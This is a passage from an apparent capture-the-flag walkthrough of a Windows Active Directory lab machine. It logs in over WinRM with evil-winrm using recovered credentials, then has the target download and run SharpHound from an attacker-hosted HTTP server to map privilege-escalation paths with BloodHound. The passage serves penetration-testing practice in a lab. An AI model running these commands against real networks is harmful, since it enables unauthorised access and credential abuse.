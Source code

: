 Confused?, Simply it is a protocol allows you to manage a remote machine over HTTP(S)          // HTTPS is hosted frequently on port 5986

There is a tool called **[evil-winrm](https://github.com/Hackplayers/evil-winrm)**  on Linux that supports and perform some attack against WinRM.

    evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice

![/images/forest/evil.png](/images/forest/evil.png)

AND WE ARE IN! , and you can grab the **user** **flag** if you want :)

### 4. Elevate privileges.

**4.1 From svc-alfresco to Administrator.**

Since we are in Active Directory Domain, it is the time to walk the dog. 

**Bloodhound** will reveal hidden and often unintended relationships within an Active Directory environment, giving you the shortest attack paths.

first you need to install bloodhound on your machine 

    sudo apt install bloodhound
    git clone https://github.com/BloodHoundAD/BloodHound.git

then setup a python server in  this directory **/BloodHound/Ingestors/**  then  download it from the machine and execute/import it.

    powershell iwr -outf Sharphound.ps1 [http://10.10.14.17:8000/SharpHound.ps1](http://10.10.14.17:8000/SharpHound.ps1)
    .\SharpHound.ps1
    Import-module .\SharpHound.ps1
    

    Invoke-BloodHound -Domain htb.local -LDAPUser svc-alfresco -LDAPPass s3rvice -CollectionMethod All -DomainController htb.local -ZipFileName forest.zip

![/images/forest/forest.png](/images/forest/forest.png)

